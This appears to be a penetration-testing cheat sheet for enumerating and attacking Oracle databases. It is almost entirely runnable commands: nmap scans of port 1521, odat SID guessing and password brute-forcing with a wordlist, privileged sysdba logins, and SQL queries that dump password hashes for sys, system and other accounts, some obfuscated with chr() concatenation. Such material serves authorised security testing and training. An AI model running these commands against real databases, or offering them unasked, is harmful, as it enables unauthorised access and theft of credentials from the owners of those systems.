 # Oracle Database enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [Brute-forcing a way in](#brute-forcing-a-way-in)
* [Connecting to an Oracle database](#connecting-to-an-oracle-database)
* [Enumerating a database](#enumerating-a-database)

## Initial enumeration
```bash
nmap -vv -p 1521 -sT -A --script=+oracle* <ip>
```

## Brute-forcing a way in
- Guessing SIDs _(databases)_:
```bash
odat sidguesser -s <ip>
```
- Brute-forcing both username and password _(using builtin list)_:
```bash
odat passwordguesser -s <ip> -d <sid> --both-ul
```
- Brute-forcing password for the user:
```bash
echo '<username>' > username.txt
odat passwordguesser -s <ip> -d <sid> --accounts-files $PWD/username.txt /usr/share/wordlists/rockyou.txt
```

## Connecting to an Oracle database
- Check available commands:
```bash
odat all -s <ip> -d <sid> -U <username> -P '<password>' 
odat all -s <ip> -d <sid> -U <username> -P '<password>' --sysdba # Privileged
```
- Connect to a database:
```bash
sqlplus '<username>/<password>@<ip>:<port>/<sid>'
sqlplus '<username>/<password>@<ip>:<port>/<sid>' as sysdba # Privileged
```
- Improve formatting:
```SQL
SET LINESIZE 32000;
```

## Enumerating a database
- Get version:
```SQL
SELECT banner FROM v$version;
SELECT version FROM v$instance;
```
- Get current database:
```SQL
SELECT name from v$database; 
```
- Get current user:
```SQL
SELECT user FROM DUAL; 
```
- Get current user permissions:
```SQL
select * from user_role_privs;
```
- Get current user's password hash:
```SQL
SELECT password FROM dba_users WHERE username=(SELECT user FROM DUAL);
SELECT password FROM sys.user$ WHERE name=(SELECT user FROM DUAL);
```
- List all users:
```SQL
SELECT username FROM dba_users ORDER BY 1;
SELECT name FROM sys.user$ ORDER BY 1;
```
- Get default user's password hash:
```SQL
SELECT password FROM dba_users WHERE lower(username)=(chr(115)||chr(121)||chr(115)); -- Get "sys" user's password hash
SELECT password FROM dba_users WHERE lower(username)=(chr(115)||chr(121)||chr(115)||chr(116)||chr(101)||chr(109)); -- Get "system" user's password hash
SELECT password FROM dba_users WHERE lower(username)=(chr(104)||chr(114)); -- Get "hr" user's password hash
SELECT password FROM sys.user$ WHERE lower(name)=(chr(115)||chr(121)||chr(115)); -- Get "sys" user's password hash
SELECT password FROM sys.user$ WHERE lower(name)=(chr(115)||chr(121)||chr(115)||chr(116)||chr(101)||chr(109)); -- Get "system" user's password hash
SELECT password FROM sys.user$ WHERE lower(name)=(chr(104)||chr(114)); -- Get "hr" user's password hash
```
- List tables:
```SQL
SELECT owner,table_name FROM all_tables ORDER BY 1; 
```
- List table columns:
```SQL
SELECT column_name FROM all_tab_columns WHERE table_name='<table_name>' ORDER BY 1; 
```
- Search for `%user%` like tables:
```SQL
SELECT owner,table_name FROM all_tables WHERE lower(table_name) LIKE chr(37)||chr(117)||chr(115)||chr(101)||chr(114)||chr(37) ORDER BY 1 OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY; -- LIMIT/OFFSET works on 12.1+ version
```
